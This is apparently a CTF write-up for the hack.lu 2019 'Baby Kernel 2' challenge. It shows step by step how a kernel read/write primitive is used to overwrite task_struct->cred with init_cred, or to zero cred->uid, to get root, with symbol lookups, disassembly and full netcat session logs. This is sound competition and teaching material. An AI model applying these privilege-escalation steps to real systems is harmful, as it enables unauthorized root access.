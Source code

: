 # hack.lu CTF 2019

### Baby Kernel 2 - pwn , 202 pts, solves: 68



We are provided with a minimal kernel environment containing custom kernel module and client that communicates with it.

Having `read/write` primitive in kernel space we can escalate our privileges by changing `cred` field of the `task_struct` of our current task. Luckily we are provided with the `System.map` file containing all symbols from the target kernel.

Obtaining `current_task`  address:

```bash
➤ grep 'D current_task' System.map                                                     
ffffffff8183a040 D current_task
```

Let's test if we can read from this address:

```bash
➤ nc babykernel2.forfuture.fluxfingers.net 1337
(...)
flux_baby_2 opened
----- Menu -----
1. Read
2. Write
3. Show me my uid
4. Read file
5. Any hintz?
6. Bye!
> 1
1
I need an address to read from. Choose wisely
> 
0xffffffff8183a040
0xffffffff8183a040
Got everything I need. Let's do it!
flux_baby_2 ioctl nr 901 called
We're back. Our scouter says the power level is: ffff888003372300
```

We have obtained `task_struct` address from the `current_task`. To escalate privileges to root we have to modify `task_struct->cred` field at offset `0x400` (offset obtained from the disassembly of the `commit_cred` function from the provided kernel image).  

We will use `init_cred` struct, which contains credentials of the `init` process that is running as `root`.

https://github.com/torvalds/linux/blob/39a38bcba4ab6e5285b07675b0e42c96eec35e67/kernel/cred.c#L41

```
/*
 * The initial credentials for the initial task
 */
struct cred init_cred = {
	.usage			= ATOMIC_INIT(4),
#ifdef CONFIG_DEBUG_CREDENTIALS
	.subscribers		= ATOMIC_INIT(2),
	.magic			= CRED_MAGIC,
#endif
	.uid			= GLOBAL_ROOT_UID,
	.gid			= GLOBAL_ROOT_GID,
	.suid			= GLOBAL_ROOT_UID,
	.sgid			= GLOBAL_ROOT_GID,
	.euid			= GLOBAL_ROOT_UID,
	.egid			= GLOBAL_ROOT_GID,
	.fsuid			= GLOBAL_ROOT_UID,
	.fsgid			= GLOBAL_ROOT_GID,
```
Since we have `System.map`:
```bash
➤ grep init_cred System.map                                                                    
ffffffff8183f4c0 D init_cred
```

To decompress the kernel image I've used this tool: `https://raw.githubusercontent.com/torvalds/linux/master/scripts/extract-vmlinux`

Obtaining the offset to the `cred` field: (we could also use pwn tools, but why not like this)

```bash
➤ gdb -q ./vmlinux                                                                    
pwndbg: loaded 176 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ./vmlinux...done.
pwndbg> disassemble commit_creds 
Dump of assembler code for function commit_creds:
   0xffffffff81050c50 <+0>:	push   rbp
   0xffffffff81050c51 <+1>:	mov    rbp,rsp
   0xffffffff81050c54 <+4>:	push   r13
   0xffffffff81050c56 <+6>:	mov    r13,QWORD PTR ds:0xffffffff8183a040
   0xffffffff81050c5e <+14>:	push   r12
   0xffffffff81050c60 <+16>:	push   rbx
   0xffffffff81050c61 <+17>:	mov    r12,QWORD PTR [r13+0x3f8]
   0xffffffff81050c68 <+24>:	cmp    QWORD PTR [r13+0x400],r12
   0xffffffff81050c6f <+31>:	jne    0xffffffff81050d66 <commit_creds+278>
```
https://github.com/torvalds/linux/blob/master/include/linux/sched.h#L624

```
struct task_struct {

	(...)
	
	/* Objective and real subjective task credentials (COW): */
	const struct cred __rcu		*real_cred;

	/* Effective (overridable) subjective task credentials (COW): */
	const struct cred __rcu		*cred;
```

The `task_struct->real_cred` at offset `0x3f8` holds our current `uid (1000)`. We have to modify `task_struct->cred` at offset `0x400`.

What is left to do is to spawn a shell with the new credentials - or like in our case, just use `Read file` function that is now running as `root`:

```bash
➤ nc babykernel2.forfuture.fluxfingers.net 1337
flux_baby_2 opened
----- Menu -----
1. Read
2. Write
3. Show me my uid
4. Read file
5. Any hintz?
6. Bye!
> 1
1
I need an address to read from. Choose wisely
> 
0xffffffff8183a040 <- current_task
0xffffffff8183a040
Got everything I need. Let's do it!
flux_baby_2 ioctl nr 901 called
We're back. Our scouter says the power level is: ffff888003373480 <- task_struct
----- Menu -----
1. Readrandom: fast init done

2. Write
3. Show me my uid
4. Read file
5. Any hintz?
6. Bye!
> 2
2
I need an offset to write to. Choose wisely - seriously now...
> 
0xffff888003373880     <-- task_struct->cred: 0xffff888003373480 + 0x400
0xffff888003373880
What about a value?
> 
0xffffffff8183f4c0     <-- init_cred
0xffffffff8183f4c0
Thanks, boss. I can't believe we're doing this!
flux_baby_2 ioctl nr 902 called
Amazingly, we're back again.
----- Menu -----
1. Read
2. Write
3. Show me my uid
4. Read file
5. Any hintz?
6. Bye!
> 3
3
uid=0(root) gid=0(root)
----- Menu -----
1. Read
2. Write
3. Show me my uid
4. Read file
5. Any hintz?
6. Bye!
> 4 
4 
Which file are we trying to read?
> /flag
/flag
Here are your 0x35 bytes contents: 
flag{nicely_done_this_is_how_a_privesc_can_also_go}}
```

Edit:

Instead of pointing the `task_struct->cred` to the `init_cred`, we could manually modify certain fields of the `struct cred`. We know that we can obtain `struct cred ` address from the `task_struct->cred`.

Getting `task_struct` address from `current_task`:

```bash
I need an address to read from. Choose wisely
> 
0xffffffff8183a040 <- current_task
Got everything I need. Let's do it!
flux_baby_2 ioctl nr 901 called
We're back. Our scouter says the power level is: ffff888003371180 <- task_struct
```

Our `task_struct` address is `0xffff888003371180`. Now we can obtain the address of the `struct cred` that is referenced in the `task_struct` at offset `0x400`.  Let's read `0xffff888003371180+0x400`

```bash
I need an address to read from. Choose wisely
> 
0xffff888003371580 <- task_struct + 0x400
Got everything I need. Let's do it!
flux_baby_2 ioctl nr 901 called
We're back. Our scouter says the power level is: ffff888003393400 <- stuct cred
```

We know that `struct cred` is at `0xffff888003393400`. 

https://github.com/torvalds/linux/blob/master/include/linux/cred.h#L111

```
struct cred {
	atomic_t	usage;
#ifdef CONFIG_DEBUG_CREDENTIALS
	atomic_t	subscribers;	/* number of processes subscribed */
	void		*put_addr;
	unsigned	magic;
#define CRED_MAGIC	0x43736564
#define CRED_MAGIC_DEAD	0x44656144
#endif
	kuid_t		uid;		/* real UID of the task */
	kgid_t		gid;		/* real GID of the task */
	kuid_t		suid;		/* saved UID of the task */
	kgid_t		sgid;		/* saved GID of the task */
	kuid_t		euid;		/* effective UID of the task */
	kgid_t		egid;		/* effective GID of the task */
	kuid_t		fsuid;		/* UID for VFS ops */
	kgid_t		fsgid;		/* GID for VFS ops */
```

Now we can set, for example `cred->uid` field at offset `4`, to `0` (root):

```
I need an offset to write to. Choose wisely - seriously now...
> 
0xffff888003389704 <- struct cred + 4
What about a value?
> 
0
Thanks, boss. I can't believe we're doing this!
flux_baby_2 ioctl nr 902 called
Amazingly, we're back again.
----- Menu -----
1. Read
2. Write
3. Show me my uid
4. Read file
5. Any hintz?
6. Bye!
> 3
uid=0(root) gid=0(root) euid=1000(user) egid=1000(user) groups=1000(user)

```

That's it! Thanks



